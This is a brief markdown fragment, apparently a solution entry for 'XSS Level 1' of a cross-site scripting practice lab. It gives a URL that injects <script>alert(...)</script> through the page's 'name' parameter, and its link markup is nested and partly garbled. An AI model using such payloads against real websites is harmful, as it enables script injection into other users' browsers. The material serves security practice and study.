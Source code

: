 # XSS Level 1
[[<https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E>](https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E)](http://www.zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>)
